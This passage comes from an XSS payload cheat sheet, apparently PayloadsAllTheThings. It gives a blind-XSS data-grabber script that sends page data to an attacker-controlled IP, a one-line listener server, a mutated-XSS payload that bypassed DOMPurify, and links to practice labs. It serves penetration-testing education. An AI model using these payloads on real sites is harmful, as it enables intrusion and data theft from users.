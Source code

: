 You can use a [Data grabber for XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#data-grabber-for-xss) and a one-line HTTP server to confirm the existence of a blind XSS before deploying a heavy blind-XSS testing tool.

Eg. payload

```html
<script>document.location='http://10.10.14.30:8080/XSS/grabber.php?c='+document.domain</script>
```

Eg. one-line HTTP server:

```powershell
$ ruby -run -ehttpd . -p8080
```

## Mutated XSS

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#mutated-xss)

Use browsers quirks to recreate some HTML tags.

**Example**: Mutated XSS from Masato Kinugawa, used against [cure53/DOMPurify](https://github.com/cure53/DOMPurify) component on Google Search.

```js
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

Technical blogposts available at

- [https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/](https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/)
- [https://research.securitum.com/dompurify-bypass-using-mxss/](https://research.securitum.com/dompurify-bypass-using-mxss/)

## Labs

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#labs)

- [PortSwigger Labs for XSS](https://portswigger.net/web-security/all-labs#cross-site-scripting)
- [Root Me - XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)
- [Root Me - XSS - Server Side](https://www.root-me.org/en/Challenges/Web-Server/XSS-Server-Side)
- [Root Me - XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)
- [Root Me - XSS - Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)
- [Root Me - XSS - Stored - Filter Bypass](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)
- [Root Me - XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)
- [Root Me - XSS DOM Based - AngularJS](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)
- [Root Me - XSS DOM Based - Eval](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)
- [Root Me - XSS DOM Based - Filters Bypass](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass)
- [Root Me - XSS - DOM Based](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based)
- [Root Me - Self XSS - DOM Secrets](https://www.root-me.org/en/Challenges/Web-Client/Self-XSS-DOM-Secrets)
- [Root Me - Self XSS - Race Condition](https://www.root-me.org/en/Challenges/Web-Client/Self-XSS-Race-Condition)
